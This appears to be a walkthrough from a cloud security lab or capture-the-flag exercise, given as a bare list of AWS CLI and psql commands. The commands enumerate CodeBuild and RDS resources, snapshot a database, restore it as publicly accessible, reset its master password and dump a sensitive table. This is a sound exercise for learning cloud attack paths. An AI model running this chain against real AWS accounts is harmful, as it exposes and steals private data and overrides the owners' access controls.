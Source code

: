 `aws configure --profile Scenario6_1_user`

`aws codebuild list-projects --profile Scenario6_1_user`

`aws codebuild batch-get-projects --names <project> --profile Scenario6_1_user`

`aws configure --profile Scenario6_2_user`

`aws rds describe-db-instances --profile Scenario6_2_user`

`aws rds create-db-snapshot --db-instance-identifier <instanceID> --db-snapshot-identifier SecurityChallenge --profile Scenario6_2_user`

`aws rds describe-db-subnet-groups --profile Scenario6_2_user`

`aws ec2 describe-security-groups --profile Scenario6_2_user`

`aws rds restore-db-instance-from-db-snapshot --db-instance-identifier <DbInstanceID> --db-snapshot-identifier <scapshotId> --db-subnet-group-name <db subnet group> --publicly-accessible --vpc-security-group-ids <ec2-security group> --profile Scenario6_2_user`

`aws rds modify-db-instance --db-instance-identifier <DbName> --master-user-password SecurityChallenge --profile Scenario6_2_user`

`psql postgresql://sc6admin@pwnedfinal.crkxmju52zsx.eu-central-1.rds.amazonaws.com:5432/postgres`

`\l`

`\c securedb`

`select * from sensitive_information`
